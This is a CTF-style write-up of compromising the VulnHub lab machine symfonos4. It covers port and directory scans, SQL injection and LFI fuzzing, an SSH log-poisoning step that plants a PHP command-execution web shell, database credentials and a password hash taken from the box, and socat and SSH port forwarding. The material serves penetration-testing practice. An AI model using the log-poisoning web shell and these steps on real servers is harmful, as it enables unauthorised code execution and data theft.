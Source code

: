 ```yaml
---
title: symfonos4
author: vulnhub
date: 2021-04-17 07:28:00 +5:30 
categories: [vulnhub , oscpLike]
tags: [LFI , SSHLog file Posioning ,SSH PortForwording , SOCAT PortForwording , mysql]
---
```


# Nmap 

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-16 22:27 EDT
Nmap scan report for 10.0.2.51 (10.0.2.51)
Host is up (0.00024s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey: 
|   2048 f9:c1:73:95:a4:17:df:f6:ed:5c:8e:8a:c8:05:f9:8f (RSA)
|   256 be:c1:fd:f1:33:64:39:9a:68:35:64:f9:bd:27:ec:01 (ECDSA)
|_  256 66:f7:6a:e8:ed:d5:1d:2d:36:32:64:39:38:4f:9c:8a (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesnt have a title (text/html).
MAC Address: 08:00:27:64:A3:27 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.85 seconds

```

<h3>Gobuster</h3>

```
gobuster dir -u http://10.0.2.51/ -w /usr/share/dirb/wordlists/big.txt -s 200,301,302 -x html,txt,php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.51/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html,txt,php
[+] Timeout:                 10s
===============================================================
2021/04/17 00:19:31 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess.php        (Status: 403) [Size: 297]
/.htpasswd            (Status: 403) [Size: 293]
/.htaccess            (Status: 403) [Size: 293]
/.htaccess.html       (Status: 403) [Size: 298]
/.htpasswd.txt        (Status: 403) [Size: 297]
/.htpasswd.php        (Status: 403) [Size: 297]
/.htpasswd.html       (Status: 403) [Size: 298]
/.htaccess.txt        (Status: 403) [Size: 297]
/atlantis.php         (Status: 200) [Size: 1718]
/css                  (Status: 301) [Size: 304] [--> http://10.0.2.51/css/]
/index.html           (Status: 200) [Size: 201]                            
/javascript           (Status: 301) [Size: 311] [--> http://10.0.2.51/javascript/]
/js                   (Status: 301) [Size: 303] [--> http://10.0.2.51/js/]        
/manual               (Status: 301) [Size: 307] [--> http://10.0.2.51/manual/]    
/robots.txt           (Status: 403) [Size: 294]                                   
/robots.txt           (Status: 403) [Size: 294]                                   
/sea.php              (Status: 302) [Size: 0] [--> atlantis.php]                  
/server-status        (Status: 403) [Size: 297]                     

```

# Enumeration

at `/atlantis.php` login page is vulnerable to sqli
![](\assets\img\vulnhub\symfonos4\atlantis.png)

after login page redirects to /sea.php which has LFI 
```bash
wfuzz -c -w /usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt -b 39bu7ekc7nlhdqbf9kcr8bplbj --hc 404 --hh 206 --hw 0 http://10.0.2.51/sea.php?file=FUZZ
```

![](\assets\img\vulnhub\symfonos4\lfi.png)

from this LFI we need RCE , we can use SSHLogFile Posioning and Get reverse Shell

# Exploitation 
<h3>LFI to RCE using ssh logFile Poisoning </h3>

By inserting the php ReverseShell as a userName during ssh Login , which gave us ReverseShell 

```bash
ssh '<?php system($_GET['cmd']); ?>'10.0.2.51
``` 

![](\assets\img\vulnhub\symfonos4\exploit.png)

>Found this passwd from linpeasOutput

```bash
var/www/html/atlantis.php:   define('DB_PASSWORD', 'yVzyRGw3cG2Uyt2r');
/var/www/html/atlantis.php:   define('DB_USERNAME', 'root');
```
 >root:yVzyRGw3cG2Uyt2r

<h3>MySql Enumeration</h3>

also port 3306 on ServerLocal host its running mqsql 

```bash

www-data@symfonos4:/tmp$ 
www-data@symfonos4:/tmp$ mysql -h 127.0.0.1 -u root -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 16
Server version: 10.3.15-MariaDB-1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

ariaDB [(none)]> show database;
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'database' at line 1
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| db                 |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.002 sec)

MariaDB [(none)]> use db;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [db]> show tables;     
+--------------+
| Tables_in_db |
+--------------+
| users        |
+--------------+
1 row in set (0.000 sec)

MariaDB [db]> select * from users;
+----------+------------------------------------------------------------------+
| username | pwd                                                              |
+----------+------------------------------------------------------------------+
| admin    | b674f184cd52edabf2c38c0142452c0af7e21f71e857cebb856e3ad7714b99f2 |
+----------+------------------------------------------------------------------+
1 row in set (0.000 sec)

MariaDB [db]>

```

# PrivilageEsclation 

 port 8080 is Running on ServerlocalHost
We need to portForword to Enumerate the port 

![](\assets\img\vulnhub\symfonos4\localport.png)

without ssh password , we can use socat to portForword or use ssh  

<h3>PortForwording Using SOCAT</h3>
```
socat TCP-LISTEN:4444,fork,reuseaddr tcp:120.0.0.1:8080 &
```

<h3>PortForwording Using SSH</h3>
```bash
ssh -L 3333:127.0.0.1:8080 poseidon@10.0.2.51                                                                                255 ⨯
poseidon@10.0.2.51  password: 
Linux symfonos4 4.19.0-5-686 #1 SMP Debian 4.19.37-5+deb10u2 (2019-08-08) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Apr 17 02:21:29 2021 from 10.0.2.36
poseidon@symfonos4:~$

```
![](\assets\img\vulnhub\symfonos4\PF-ssh.png)